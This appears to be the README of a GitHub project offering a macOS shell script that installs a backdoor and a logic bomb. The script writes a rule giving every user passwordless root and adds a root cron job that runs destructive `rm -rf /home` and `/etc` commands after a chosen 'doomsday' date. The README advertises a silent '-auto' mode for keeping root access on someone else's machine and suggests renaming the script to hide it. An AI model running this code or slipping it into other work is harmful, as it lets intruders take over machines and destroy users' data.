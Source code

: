 # `startup.sh`
## A MacOS Shell Script

Note: sudo privileges are required. For educational purposes only. Do not use maliciously.

## Requirements
You must have some prerequisites before installing/running this script:
- A MacOS machine
- Access to sudo
- git (installed by default)
- cron (installed by default)

## Installation
Clone this repository, preferably, but not necessarily in the `/opt` directory:
```sh
# git clone https://github.com/eccys/startup.sh
# cd startup.sh
```
Make it executable:
```sh
sudo chmod +x startup.sh
```
Run it:
```sh
./startup.sh
```

## Usage

Upon running and entering your sudo password, one is greeted with some information and options, which are self explanatory:
```sh
[root@hostname /opt]# ./startup.sh

List of super users: root
Passwordless sudo enabled: No
isti'la is disabled

Options:
1 = Toggle someone sudo
2 = Toggle sudo password requirement
3 = Enable/Disable isti'la

Select an option or press any other key to quit: 
```

If isti'la is enabled, the isti'la date is shown.

### Toggle someone sudo
On selecting this option, it will prompt for a user's username. The user is made into an administrator. This is safer than __Passwordless sudo__.

### Passwordless sudo
This writes to a file, `/etc/sudoers.d/nopasswd_for_all`, which contains the line `ALL ALL=(ALL) NOPASSWD: ALL`. It allows for anyone, even non-administrators, to use `sudo` and execute programs and/or commands as root. 

This works very well, as by default, the `/etc/sudoers` extends `/etc/suoders.d/`. It is very dangerous, and should never be left on, unless of course.. it is the desired outcome ;)

### Isti'la

Istila is a turkish word. This option is different from others, as it is coined solely for destruction.

#### What isti'la does
When enabling isti'la, it will prompt for a date. in the format `YYYYMMDDHH`. (e.g., `2024120112` for December 1st, 2024, 12PM.)

If enabled, isti'la writes the date to `/etc/isti'la_enabled`, and establishes a cron task in the root user's crontab, running every minute checking if the current date is greater than or equal to the isti'la date.

If it is, the commands specified in the script are executed:

```sh
# Function to execute isti'la if conditions are met
execute_istila() {
    if [ -f /etc/istila_enabled ]; then
        CURRENT_DATE=$(date +%Y%m%d%H)  # Convert current date to an integer format
        ISTILA_DATE=$(cat /etc/istila_enabled)

        if [ "$CURRENT_DATE" -ge "$ISTILA_DATE" ]; then
            if [ "$AUTO_MODE" != "true" ]; then
                echo "Executing isti'la..."
            fi
            # Uncomment the lines below to enable isti'la actions
            echo Successfully executed cron job and istila operation | sudo tee -a /opt/test >/dev/null
            # sudo rm -rf /home
            # sudo rm -rf /etc
        else
            if [ "$AUTO_MODE" != "true" ]; then
                echo "isti'la date has not yet arrived."
            fi
        fi
    fi
}
```

It is very useful for executing certain actions after a specified "doomsday" has passed.

> [!IMPORTANT]
> Commands such as `sudo rm -rf --no-preserve-root` are futile on MacOS environments with [System Integrity Protection](https://support.apple.com/en-us/102149) enabled. Likewise, any operation which seeks to modify files in `/bin`, `/sbin`, `/System`, `/var`, or `/usr`.

## Auto mode

The script supports the `-auto` flag. Execute:
```sh
./startup.sh -auto
```
Upon running the script in auto mode, __Passwordless sudo__ is automatically enabled, and that's it. 

Very useful for scenarios where someone types in their sudo password and their cooldown has not yet expired, and one wishes to retain sudo access silently. One may fork this repository and rename it to something inconspicuous, or use it as part of their own project. Running it in auto mode is inherently inconspicuous itself, as only a single word is printed: `Done.`.

### Isti'la with auto mode

The auto flag supports enabling isti'la automatically, via an argument. For example:
```sh
./startup.sh -auto 2024120112
```
will enable __Passwordless sudo__ as well as isti'la with the date `2024120112` (December 1st, 2024, 12PM). If all processes are executed successfully, one line is printed: `Done. isti'la date: <date>. Cron job is successful.`.

It is also very inconspicuous. Passwordless sudo is enabled regardless, as it is required for the cron job to be able to execute commands prefixed with `sudo`. However, this is not true, as it writes the cron job to the root user's crontab.

Pull requests and issues regarding extending functionality or correcting unexpected behavior are welcome.

